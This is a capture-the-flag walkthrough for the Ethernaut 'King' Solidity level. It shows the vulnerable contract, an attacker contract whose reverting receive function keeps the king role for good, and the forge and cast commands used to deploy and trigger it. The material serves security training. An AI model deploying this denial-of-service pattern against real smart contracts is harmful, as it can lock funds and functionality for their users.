 ## King Level Outline

**Difficulty : 6/10**

When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract King {

  address payable king;
  uint public prize;
  address payable public owner;

  constructor() public payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address payable) {
    return king;
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x43BA674B4fbb8B157b7441C2187bCdD2cdF84FD5)

## Solution
The contract espects to be interacting with an EOA but we can force a revert and keep the crown if we make a malicious contract the king.

To make sure that we keep the crown when someone tries to claim it. We create a malicious fallback function in our contract which will revert after receiving ETH effectively keeping our malicious contract as the King.

### Walkthrough

1. create a new [forge project](https://book.getfoundry.sh/projects/creating-a-new-project.html) with the following contract in `src` 
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract ImposterKing {
    address king;

    constructor(address _king) payable {
        king = _king;
    }

    function claimCrown() public payable {
        payable(king).call{value: msg.value}("");
    }

    receive() external payable {
        revert("I will keep the crown :)");
    }
}
```

2. deploy our new contract
```console
forge create src/Contract.sol:ImposterKing --constructor-args $LEVEL_ADDRESS --private-key  $PRIVATE_KEY
```

3. finding the current value of prize to see how much we need to overthrow the current king
```console
cast call $LEVEL_ADDRESS "prize()" | cast --to-dec
```
output
```console
1000000000000000
```
> take note that this is the value of prize in wei, meaning that we need to send more than 1000000000000000wei to become the new king

3. call the "claimCrown()" function on our newly deployed contract along with some eth
```console
cast send $DEPLOYED_ADDRESS "claimCrown()" --value 1000000000000001wei --gas 80000 --private-key=$PRIVATE_KEY 
```
> Replace $DEPLOYED_ADDRESS with the address of your deployed contract
